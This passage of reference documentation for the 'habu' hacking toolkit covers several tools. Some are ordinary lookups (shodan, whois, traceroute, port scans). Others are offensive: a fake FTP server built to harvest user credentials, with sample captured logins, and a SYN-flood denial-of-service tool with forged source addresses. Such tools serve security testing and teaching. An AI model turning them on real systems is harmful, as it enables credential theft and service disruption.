      The output shows which protocols doesn't generate a 'protocol-unreachable'
      ICMP response.
    
      Example:
    
      $ sudo python cmd_ipscan.py 45.77.113.133
      1   icmp
      2   igmp
      4   ipencap
      6   tcp
      17  udp
      41  ipv6
      47  gre
      50  esp
      51  ah
      58  ipv6_icmp
      97  etherip
      112 vrrp
      115 l2tp
      132 sctp
      137 mpls_in_ip
    
    Options:
      -i TEXT     Interface to use
      -t INTEGER  Timeout for each probe (default: 2 seconds)
      --all       Probe all protocols (default: Defined in /etc/protocols)
      -v          Verbose output
      --help      Show this message and exit.
    

habu.server.ftp
---------------

.. code-block::

    Usage: habu.server.ftp [OPTIONS]
    
      Basic fake FTP server, whith the only purpose to steal user credentials.
    
      Supports SSL/TLS.
    
      Example:
    
      # sudo habu.server.ftp --ssl --ssl-cert /tmp/cert.pem --ssl-key /tmp/key.pem
      Listening on port 21
      Accepted connection from ('192.168.0.27', 56832)
      Credentials collected from 192.168.0.27! fabian 123456
    
    Options:
      -a TEXT          Address to bind (default: all)
      -p INTEGER       Which port to use (default: 21)
      --ssl            Enable SSL/TLS (default: False)
      --ssl-cert TEXT  SSL/TLS Cert file
      --ssl-key TEXT   SSL/TLS Key file
      -v               Verbose
      --help           Show this message and exit.
    

habu.shodan
-----------

.. code-block::

    Usage: habu.shodan [OPTIONS] IP
    
      Simple shodan API client.
    
      Prints the JSON result of a shodan query.
    
      Example:
    
      $ habu.shodan 8.8.8.8
      {
          "hostnames": [
              "google-public-dns-a.google.com"
          ],
          "country_code": "US",
          "org": "Google",
          "data": [
              {
                  "isp": "Google",
                  "transport": "udp",
                  "data": "Recursion: enabled",
                  "asn": "AS15169",
                  "port": 53,
                  "hostnames": [
                      "google-public-dns-a.google.com"
                  ]
              }
          ],
          "ports": [
              53
          ]
      }
    
    Options:
      -c           Disable cache
      -v           Verbose output
      -o FILENAME  Output file (default: stdout)
      --help       Show this message and exit.
    

habu.shodan.open
----------------

.. code-block::

    Usage: habu.shodan.open [OPTIONS] IP
    
      Output the open ports for an IP against shodan (nmap format).
    
      Example:
    
      $ habu.shodan.open 8.8.8.8
      T:53,U:53
    
    Options:
      -c           Disable cache
      -j           Output in JSON format
      -x           Output an nmap command to scan open ports
      -v           Verbose output
      -o FILENAME  Output file (default: stdout)
      --help       Show this message and exit.
    

habu.synflood
-------------

.. code-block::

    Usage: habu.synflood [OPTIONS] IP
    
      Launch a lot of TCP connections and keeps them opened.
    
      Some very old systems can suffer a Denial of Service with this.
    
      Reference: https://en.wikipedia.org/wiki/SYN_flood
    
      Example:
    
      # sudo habu.synflood 172.16.0.10
      .................
    
      Each dot is a packet sent.
    
      You can use the options '-2' and '-3' to forge the layer 2/3 addresses.
    
      If you use them, each connection will be sent from a random layer2 (MAC)
      and/or layer3 (IP) address.
    
      You can choose the number of connections to create with the option '-c'.
      The default is never stop creating connections.
    
      Note: If you send the packets from your real IP address and you want to
      keep the connections half-open, you need to setup for firewall to don't
      send the RST packets.
    
    Options:
      -i TEXT     Wich interface to use (default: auto)
      -c INTEGER  How many packets send (default: infinit)
      -p INTEGER  Port to use (default: 135)
      -2          Forge layer2/MAC address (default: No)
      -3          Forge layer3/IP address (default: No)
      -v          Verbose
      --help      Show this message and exit.
    

habu.tcpflags
-------------

.. code-block::

    Usage: habu.tcpflags [OPTIONS] IP
    
      Send TCP packets with different flags and tell what responses receives.
    
      It can be used to analyze how the different TCP/IP stack implementations
      and configurations responds to packet with various flag combinations.
    
      Example:
    
      # habu.tcpflags www.portantier.com
      S  -> SA
      FS -> SA
      FA -> R
      SA -> R
    
      By default, the command sends all possible flag combinations. You can
      specify which flags must ever be present (reducing the quantity of
      possible combinations), with the option '-f'.
    
      Also, you can specify which flags you want to be present on the response
      packets to show, with the option '-r'.
    
      With the next command, you see all the possible combinations that have the
      FIN (F) flag set and generates a response that contains the RST (R) flag.
    
      Example:
    
      # habu.tcpflags -f F -r R www.portantier.com
      FPA  -> R
      FSPA -> R
      FAU  -> R
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -f TEXT     Flags that must be sent ever (default: fuzz with all flags)
      -r TEXT     Filter by response flags (default: show all responses)
      -v          Verbose
      --help      Show this message and exit.
    

habu.tcpscan
------------

.. code-block::

    Usage: habu.tcpscan [OPTIONS] IP
    
      TCP Port Scanner.
    
      Print the ports that generated a response with the SYN flag or (if show
      use -a) all the ports that generated a response.
    
      It's really basic compared with nmap, but who is comparing?
    
      Example:
    
      # habu.tcpscan -p 22,23,80,443 -s 1 45.77.113.133
      22 S -> SA
      80 S -> SA
      443 S -> SA
    
    Options:
      -p TEXT     Ports to use (default: 80) example: 20-23,80,135
      -i TEXT     Interface to use
      -f TEXT     Flags to use (default: S)
      -s TEXT     Time between probes (default: send all together)
      -t INTEGER  Timeout for each probe (default: 2 seconds)
      -a          Show all responses (default: Only containing SYN flag)
      -v          Verbose output
      --help      Show this message and exit.
    

habu.traceroute
---------------

.. code-block::

    Usage: habu.traceroute [OPTIONS] IP
    
      TCP traceroute.
    
      Identify the path to a destination getting the ttl-zero-during-transit
      messages.
    
      Note: On the internet, you can have various valid paths to a device.
    
      Example:
    
      # habu.traceroute 45.77.113.133
      IP / ICMP 192.168.0.1 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror
      IP / ICMP 10.242.4.197 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror / Padding
      IP / ICMP 200.32.127.98 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror / Padding
      .
      IP / ICMP 4.16.180.190 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror
      .
      IP / TCP 45.77.113.133:http > 192.168.0.5:ftp_data SA / Padding
    
      Note: It's better if you use a port that is open on the remote system.
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -i TEXT     Interface to use
      --help      Show this message and exit.
    

habu.usercheck
--------------

.. code-block::

    Usage: habu.usercheck [OPTIONS] USERNAME
    
      Check if the given username exists on various social networks and other
      popular sites.
    
      $ habu.usercheck portantier
      {
          "aboutme": "https://about.me/portantier",
          "disqus": "https://disqus.com/by/portantier/",
          "github": "https://github.com/portantier/",
          "ifttt": "https://ifttt.com/p/portantier",
          "lastfm": "https://www.last.fm/user/portantier",
          "medium": "https://medium.com/@portantier",
          "pastebin": "https://pastebin.com/u/portantier",
          "pinterest": "https://in.pinterest.com/portantier/",
          "twitter": "https://twitter.com/portantier",
          "vimeo": "https://vimeo.com/portantier"
      }
    
    Options:
      -c      Disable cache
      -v      Verbose output
      -w      Open each valid url in a webbrowser
      --help  Show this message and exit.
    

habu.vhosts
-----------

.. code-block::

    Usage: habu.vhosts [OPTIONS] HOST
    
      Use Bing to query the websites hosted on the same IP address.
    
      $ habu.vhosts www.telefonica.com
      www.telefonica.com -> 212.170.36.79
      [
          'www.telefonica.es',
          'universitas.telefonica.com',
          'www.telefonica.com',
      ]
    
    Options:
      -c          Disable cache
      -p INTEGER  Pages count (Default: 10)
      -f INTEGER  First result to get (Default: 1)
      --help      Show this message and exit.
    

habu.virustotal
---------------

.. code-block::

    Usage: habu.virustotal [OPTIONS] INPUT
    
      Send a file to VirusTotal https://www.virustotal.com/ and print the report
      in JSON format.
    
      Note: Before send a file, will check if the file has been analyzed before
      (sending the sha256 of the file), if a report exists, no submission will
      be made, and you will see the last report.
    
      $ habu.virustotal meterpreter.exe
      Verifying if hash already submitted: f4826b219aed3ffdaa23db26cfae611979bf215984fc71a1c12f6397900cb70d
      Sending file for analysis
      Waiting/retrieving the report...
      {
          "md5": "0ddb015b5328eb4d0cc2b87c39c49686",
          "permalink": "https://www.virustotal.com/file/c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23/analysis/1526850717/",
          "positives": 49,
          "resource": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23",
          "response_code": 1,
          "scan_date": "2018-05-20 21:11:57",
          "scan_id": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23-1526850717",
          "scans": {
              "ALYac": {
                  "detected": true,
                  "result": "Trojan.CryptZ.Gen",
                  "update": "20180520",
                  "version": "1.1.1.5"
              },
              ... The other scanners ...
          },
          "sha1": "5fa33cab1729480dd023b08f7b91a945c16d0a9e",
          "sha256": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23",
          "total": 67,
          "verbose_msg": "Scan finished, information embedded"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.web.report
---------------

.. code-block::

    Usage: habu.web.report [OPTIONS] [F]
    
      Uses Firefox to take a screenshot of the websites. (you need firefox
      installed, obviously)
    
      Makes a report that includes the HTTP headers.
    
      The expected format is one url per line.
    
      Creates a directory called 'report' with the content inside.
    
      $ echo https://www.portantier.com | habu.web.report
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.web.screenshot
-------------------

.. code-block::

    Usage: habu.web.screenshot [OPTIONS] URL
    
      Uses Firefox to take a screenshot (you need firefox installed, obviously)
    
      $ habu.web.screenshot https://www.portantier.com
    
    Options:
      -o TEXT  Output file. (default: screenshot.png)
      --help   Show this message and exit.
    

habu.web.tech
-------------

.. code-block::

    Usage: habu.web.tech [OPTIONS] URL
    
      Use Wappalyzer apps.json database to identify technologies used on a web
      application.
    
      Reference: https://github.com/AliasIO/Wappalyzer
    
      Note: This tool only sends one request. So, it's stealth and not
      suspicious.
    
      $ habu.web.tech https://woocomerce.com
      {
          "Nginx": {
              "categories": [
                  "Web Servers"
              ]
          },
          "PHP": {
              "categories": [
                  "Programming Languages"
              ]
          },
          "WooCommerce": {
              "categories": [
                  "Ecommerce"
              ],
              "version": "6.3.1"
          },
          "WordPress": {
              "categories": [
                  "CMS",
                  "Blogs"
              ]
          },
      }
    
    Options:
      -c      Disable cache
      -v      Verbose output
      --help  Show this message and exit.
    

habu.whois.domain
-----------------

.. code-block::

    Usage: habu.whois.domain [OPTIONS] DOMAIN
    
      Simple whois client to check domain names.
    
      Example:
    
      $ habu.whois.domain portantier.com
      {
          "domain_name": "portantier.com",
          "registrar": "Amazon Registrar, Inc.",
          "whois_server": "whois.registrar.amazon.com",
          ...
    
    Options:
      --help  Show this message and exit.
    

habu.whois.ip
-------------

.. code-block::

    Usage: habu.whois.ip [OPTIONS] IP
    
      Simple whois client to check IP addresses (IPv4 and IPv6).
    
      Example:
    
      $ habu.whois.ip 8.8.8.8
      {
          "nir": null,
          "asn_registry": "arin",
          "asn": "15169",
          "asn_cidr": "8.8.8.0/24",
          "asn_country_code": "US",
          "asn_date": "1992-12-01",
          "asn_description": "GOOGLE - Google LLC, US",
          "query": "8.8.8.8",
          ...
    
    Options:
      --help  Show this message and exit.
    

habu.xor
--------

.. code-block::

    Usage: habu.xor [OPTIONS]
    
      XOR cipher.
    
      Note: XOR is not a 'secure cipher'. If you need strong crypto you must use
      algorithms like AES. You can use habu.fernet for that.
    
      Example:
    
      $ habu.xor -k mysecretkey -i /bin/ls > xored
      $ habu.xor -k mysecretkey -i xored > uxored
      $ sha1sum /bin/ls uxored
      $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  /bin/ls
      $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  uxored
    
    Options:
      -k TEXT      Encryption key
      -i FILENAME  Input file (default: stdin)
      -o FILENAME  Output file (default: stdout)
      --help       Show this message and exit.
    


